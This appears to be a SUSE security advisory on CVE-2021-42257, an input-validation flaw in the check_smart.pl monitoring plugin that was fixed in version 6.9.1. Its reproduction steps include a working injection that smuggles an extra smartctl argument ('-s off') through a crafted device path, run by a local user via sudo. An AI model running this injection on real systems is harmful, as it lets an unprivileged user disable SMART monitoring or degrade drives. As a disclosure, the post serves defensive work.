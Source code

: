 ```yaml
---
layout: post
author: <a href='mailto:wfrisch@suse.de'>Wolfgang Frisch</a>
title:  "check_smart.pl: unprivileged user can alter hard drive settings (CVE-2021-42257)"
date:   2021-10-14
tags:   CVE local sudo
excerpt: "check_smart.pl from version 6.1 through 6.9 contained insufficient input validation that allowed any unprivileged local user to modify SMART settings, disable SMART monitoring entirely, shut down a drive or degrade a drive's performance by disabling its read cache."
---
```


# Table of Contents
{:.no_toc}

* ToC
{:toc}

# Introduction
[`check_smart.pl`][upstream_homepage] is a plugin to monitor the values of
SMART attributes of hard disk and solid state drives, based on smartmontools.
It is intended for integration with systems monitoring software, e.g. Nagios,
Icinga, Shinken or Naemon.

During a routine audit of custom scripts in openSUSE, a
[vulnerability][upstream_blog] was [discovered][suse_bug]: `check_smart.pl`
from version 6.1 through 6.9 insufficiently validated its input, allowing any
unprivileged local user to modify SMART settings, disable SMART monitoring
entirely, shut down a drive or degrade a drive's performance by disabling its
read cache. The bug was fixed with the release of version 6.9.1.

# Details
`check_smart.pl` needs to run as root in order to execute `smartctl`.
This is achieved with an entry in `/etc/sudoers`, which allows a lesser
privileged user, e.g. the one the monitoring system runs under, to
execute it. User input that is passed to `smartctl` is sufficiently
validated apart from one minor oversight.

The -d parameter is validated as follows:
```perl
if (-b $opt_dl || -c $opt_dl || $opt_dl =~ m/\/dev\/bus\/\d/) {
  # OK
} else {
  # NOT OK
}
```

Later on, this parameter is passed verbatim to smartctl:
```perl
my $full_command = "$smart_command -d $interface -Hi $device"
```

In short, the script will accept:

* block special devices
* char special devices
* any path matching the regex `/dev/bus/\d`

Critically, this regex matches even when `/dev/bus/\d` is just a _substring_ of
any arbitrary directory, for example `/tmp/dev/bus/1/sda`.

This can be exploited to pass arbitrary parameters to `smartctl`.

# Steps to reproduce
```shell
su -l -s /bin/bash nagios

mkdir -p /tmp/dev/bus/1/
ln -s /dev/sda /tmp/dev/bus/1/
ls -l /tmp/dev/bus/1/sda

/usr/lib/nagios/plugins/check_smart --debug -i auto -d "/tmp/dev/bus/1/sda -s off"
```

```
SMART Disabled.
```

# Upstream bugfix
Upstream (Claudio Kuenzler) was very responsive and quickly released version
6.9.1 to fix the issue.

# References

- [Upstream repository][upstream_git]
- [Upstream homepage][upstream_homepage]
- [Upstream blog post][upstream_blog]
- [SUSE bug tracker][suse_bug]

[upstream_git]: https://github.com/Napsty/check_smart/
[upstream_homepage]: https://www.claudiokuenzler.com/monitoring-plugins/check_smart.php
[upstream_blog]: https://www.claudiokuenzler.com/blog/1068/check_smart-6.9.1-security-fix-release-pseudo-device-path
[suse_bug]: https://bugzilla.suse.com/show_bug.cgi?id=1183057
